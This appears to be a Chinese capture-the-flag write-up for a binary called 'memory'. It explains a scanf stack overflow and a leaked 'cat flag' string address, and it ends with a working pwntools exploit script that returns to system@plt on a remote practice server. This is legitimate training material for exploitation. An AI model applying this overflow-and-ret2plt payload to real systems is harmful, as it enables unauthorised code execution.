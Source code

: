 checksec

![image-20201202155611805](https://static.hack1s.fun/images/2021/02/06/image-20201202155611805.png)

本来还以为是类似于测试nc这样一连上去就有flag，结果并不是

![image-20201202155655176](https://static.hack1s.fun/images/2021/02/06/image-20201202155655176.png)

main函数用随机数种子生成了一个数组，之后输出

![image-20201202155718603](https://static.hack1s.fun/images/2021/02/06/image-20201202155718603.png)

在这个mem_test里面有输出一个hint的地址，这个地址是cat flag这个字符串的地址

![image-20201202155926210](https://static.hack1s.fun/images/2021/02/06/image-20201202155926210.png)

这里的scanf会导致溢出，其实前面的东西没有那么关键

另外有一个win_func后门函数

![image-20201202155856509](https://static.hack1s.fun/images/2021/02/06/image-20201202155856509.png)

直接在scanf这里溢出，返回到system调用`cat flag`

```python
from pwn import *
io = remote('node3.buuoj.cn',27258)
#io = process('./memory')
elf = ELF('./memory')
payload = bytes('a'*0x13 + 'b'*0x4,'ascii') + p32(elf.plt['system']) + p32(elf.sym['main']) + p32(0x80487e0)
io.send(payload)
io.interactive()
```

